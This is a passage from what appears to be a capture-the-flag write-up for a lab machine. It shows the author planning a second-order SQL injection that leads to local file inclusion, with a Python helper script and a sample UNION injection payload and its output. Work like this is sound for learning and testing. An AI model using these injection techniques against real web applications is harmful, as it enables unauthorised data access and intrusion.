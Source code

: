 - `config`: There's a lot of data here, including some potential credentials in `ftp_pass`. There's also a `checkrelease` option that points to a perl script in `/home/guly/`
- `idname`: That table contains the mapping between the ID specified in the GET request and a name
- `filepath`: The name from the previous table seems to be referenced here in this table

### Second order SQL injection

I have the database table with some possible credentials but there's nothing else open on this box except HTTP and HTTPS and I haven't found any other hidden directory and/or vhost. There's possibly a service listening on an IPv6 address but I don't know the address and I can't scan the entire /64 because that address space is too large to scan.

The MD5 hash of the last two entries in the filepath table are the md5sum of the strings `submission` and `smtp`. Thinking that this was a hint, I hashed a couple of wordlists and ran those through wfuzz but was unsuccesfull in finding any other files.

I don't have the PHP source code but I can guess that there are two SQL queries being issued from index.php: one to map the ID to the name, and another one to map the name to the filename. If I can perform an injection on the first query, I can probably do the same on the second one and control which file gets included by the PHP code, basically getting an LFI.

I don't like testing SQL injections within Burp so I made a script to help me with the process:

```python
import readline
import requests

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    cmd = raw_input("> ")
    payload = cmd
    payload = payload + "-- -"
    print payload
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    print soup.body
```

The first thing I test is to check if I can display the Contact page by returning `contact` instead of `main` from the first query against the `idname` table.

This is the query I want to run against the `idname` table: `SELECT name FROM idname WHERE id = '25' UNION SELECT ALL 'contact'`

Output from my script below:
```
# python sqli.py
> 25' union select all 'contact'
[...]
<body class="container">
Hello visitor,<br/>

thanks for getting in touch with us!<br/>
Unfortunately our server is under *heavy* attack and we disable almost every dynamic page.<br/>
Please come back later.
```
